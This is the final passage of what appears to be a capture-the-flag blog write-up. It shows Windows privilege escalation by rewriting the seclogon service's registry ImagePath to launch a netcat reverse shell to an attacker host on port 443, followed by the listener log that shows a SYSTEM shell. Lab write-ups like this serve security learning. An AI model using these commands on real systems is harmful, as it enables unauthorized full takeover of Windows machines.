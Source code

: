 ```powershell
RasMan
seclogon
UevAgentService
UnistoreSvc
UserDataSvc
WaaSMedicSvc
WpnUserService
wuauserv
```
We'll configure the binary path to `seclogon` serive to execute a netcat shell.
```powershell
PS C:\Users\Hector\Documents> set-itemproperty -erroraction silentlycontinue -path HKLM:\system\currentcontrolset\services\seclogon -name imagepath -value "C:\temp\nc.exe  10.10.15.251 443 -e powershell";

PS C:\Users\Hector\Documents> start-service seclogon -erroraction silentlycontinue;
```

Starting service. we've recieved a reverse shell as `nt authority\system`.
```
$ sudo rlwrap ncat -lvnp 443

Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.167.
Ncat: Connection from 10.10.10.167:49701.
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami

nt authority\system
PS C:\Windows\system32> hostname

Fidelity
```
Thank you for taking you're time for reading this blog!.
